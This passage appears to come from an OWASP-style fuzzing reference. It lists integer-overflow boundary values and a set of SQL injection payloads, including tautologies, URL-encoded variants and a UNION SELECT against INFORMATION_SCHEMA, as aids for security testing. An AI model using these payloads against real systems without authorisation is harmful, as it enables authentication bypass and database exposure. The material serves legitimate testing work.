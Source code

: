 Integer overflow errors occur when a program fails to account for the fact that an arithmetic operation can result in a quantity either greater than a data type's maximum value or less than its minimum value. If a tester can cause the program to perform such a memory allocation, the program can be potentially vulnerable to a buffer overflow attack.

```
 -1
 0
 0x100
 0x1000
 0x3fffffff
 0x7ffffffe
 0x7fffffff
 0x80000000
 0xfffffffe
 0xffffffff
 0x10000
 0x100000
```

## SQL Injection

This attack can affect the database layer of an application and is typically present when user input is not filtered for SQL statements.


For details on Testing SQL Injection: [Testing for SQL Injection](https://www.owasp.org/index.php/Testing_for_SQL_Injection_%28OWASP-DV-005%29)


SQL Injection is classified in the following two categories, depending on the exposure of database information (passive) or the alteration of database information (active).

* Passive SQL Injection
* Active SQL Injection


Active SQL Injection statements can have a detrimental effect on the underlying database if successfully executed.


### Passive SQL Injection (SQP)

```
 '||(elt(-3+5,bin(15),ord(10),hex(char(45))))
 ||6
 '||'6
 (||6)
 ' OR 1=1--
 OR 1=1
 ' OR '1'='1
 ; OR '1'='1'
 %22+or+isnull%281%2F0%29+%2F*
 %27+OR+%277659%27%3D%277659
 %22+or+isnull%281%2F0%29+%2F*
 %27+--+
 ' or 1=1--
 " or 1=1--
 ' or 1=1 /*
 or 1=1--
 ' or 'a'='a
 " or "a"="a
 ') or ('a'='a
 Admin' OR '
 '%20SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES--
 ) UNION SELECT%20*%20FROM%20INFORMATION_SCHEMA.TABLES;
 ' having 1=1--
 ' having 1=1--
```